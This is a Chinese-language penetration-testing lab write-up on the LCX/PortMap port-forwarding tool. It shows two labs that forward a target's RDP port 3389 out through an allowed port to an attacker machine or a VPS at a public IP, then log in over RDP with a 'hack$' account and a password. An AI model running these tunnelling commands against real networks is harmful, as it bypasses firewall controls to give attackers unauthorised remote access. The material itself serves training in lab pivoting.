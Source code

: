 # **LCX**介绍 

LCX是一款端口转发工具， 分为Windows版和Linux版，  Linux版本为PortMap。 LCX有端口映射和端口转发两大功 能，

 例如当目标的3389端口只对内开放而不对外开放时， 可以使用端口映射将3389端口映射到目标的其他端口使 用； 当目标处于内网或目标配置的策略只允许访问固定某一端口时， 可以通过端口转发突破限制。  

## Windows版的 LCX用法:

```
端口转发：
Lcx -listen <监听slave请求的端口><等待连接的端口>
Lcx -slave <攻击机IP><监听端口><目标IP><目标端口>

端口映射：
Lcx -tran <等待连接的端口><目标IP><日标端口>
```

## Linux版的LCX用法:

```
Usage:./portmap -m method [-h1 host1] -p1 port1 [-h2 host2] -p2 port2 [-v] [-log filename]
-v: version
-h1: host1
-h2: host2
-p1: port1
-p2: port2
-log: log the data
-m: the action method for this tool
1: listen on PORT1 and connect to HOST2:PORT2
2: listen on PORT1 and PORT2
3: connect to HOST1:PORT1 and HOST2:PORT2

```

# **LCX**实验一

## 一、实验场景



由于配置了防火墙只允许web访问， 这个时候攻击者想访问3389端口， 远程连接是不可以的， 就需要使用LCX进行 端口转发

Web服务器开启了80端口， 3389端口不允许出网， 可以将web服务器的3389端口转发到允许出网的53端口， 这个 时候攻击者在本地监听53端口并且转发到1111端口， 这个时候攻击者连接自己的1111端口， 等于访问web服务器 的3389端口

![img](https://img.gyxnb.top/img/clip_image003.jpg)

## 二、实验环境

机器介绍如下 

| 机器名称  | 机器**IP**   |
| --------- | ------------ |
| 攻击机器  | 192.168.70.7 |
| web服务器 | 192.168.70.8 |

## 三、实验复现

### 1、在攻击机器上运行以下命令， 

监听本地53端口并且转发到本地1111端口

```
lcx -listen 53 1111  
```

![img](https://img.gyxnb.top/img/clip_image005.gif)

### 2、在web靶机上运行以下命令，  

将本地的3389端口转发到192.168.70.7的 53端口

```
 lcx.exe -slave 192.168.70.7 53 127.0.0.1 3389  
```

![img](https://img.gyxnb.top/img/clip_image007.gif)

### 3、在攻击机器上运行远程桌面， 地址为127.0.0.1:1111

```
127.0.0.1:1111
hack$
123456kl;'
```

![img](https://img.gyxnb.top/img/clip_image008.jpg)

# **LCX**实验二 

## 一、实验场景

Web服务器开启了80端口， 3389端口不允许出网， 可以将web服务器的3389端口转发到允许出网的54端口， 这个 时候攻击者在VPS监听54端口并且转发到1111端口， 这个时候攻击者连接VPS的1111端口， 等于访问web服务器的 3389端口

![img](https://img.gyxnb.top/img/clip_image009.jpg)

## 二、实验环境

| 机器名称       | 机器**IP**    |
| -------------- | ------------- |
| 攻击者VPS      | 47.120.13.249 |
| 内网攻击者机器 | 192.168.220.2 |
| 内网靶机       | 192.168.70.8  |

## 三、实验复现

### 1、在攻击机器上运行以下命令， 

监听本地54端口并且转发到本地1111端口

```
lcx -slave 47.120.13.249 54 127.0.0.1 3389  
```

![img](https://img.gyxnb.top/img/clip_image010.jpg)

### 2、在vps运行

`lcx -listen 54 1111`，

 因为我的机器vps机器是linux系统所以使用`portmap`

```
./portmap -m 2 -p1 54 -p2 1111 
```

![img](https://img.gyxnb.top/img/clip_image012.gif)

### 3、在那内攻击机器上连接

```
47.120.13.249:1111
hack$
123456kl;'
```

![img](https://img.gyxnb.top/img/clip_image013.jpg)